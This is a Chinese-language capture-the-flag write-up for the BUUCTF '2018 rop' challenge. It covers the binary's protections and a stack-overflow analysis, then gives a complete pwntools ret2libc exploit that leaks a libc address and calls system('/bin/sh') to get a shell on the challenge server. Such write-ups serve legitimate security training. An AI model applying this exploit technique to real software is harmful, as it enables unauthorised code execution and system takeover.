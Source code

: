 ```yaml
---
author: 
  name: Zephyr
title: 铁人三项(第五赛区) 2018 rop
date: 2022-3-22 19:20:03
permalink: /pages/2e1547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# 铁人三项(第五赛区) 2018 rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

vulnerable_function函数及函数表如下

![铁人三项_第五赛区_2018_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/%E9%93%81%E4%BA%BA%E4%B8%89%E9%A1%B9_%E7%AC%AC%E4%BA%94%E8%B5%9B%E5%8C%BA_2018_rop_1.png)

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的`ret2libc`，应先泄漏`libc`及函数地址，再利用泄漏的信息构造`payload`,执行获取`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
io = remote('node4.buuoj.cn', 28626)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc_start_main_addr = elf.got['__libc_start_main']
write_addr = elf.plt['write']
vulnerable_function_addr = elf.symbols['vulnerable_function']
padding = 0x88+4
pop_3times_ret = 0x0804855d
payload = flat(['a'*padding, write_addr, pop_3times_ret, 1,libc_start_main_addr, 4, vulnerable_function_addr])
io.sendline(payload)
leak_libc_start_main_addr = u32(io.recv())
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
io.sendline(payload)
io.interactive()
```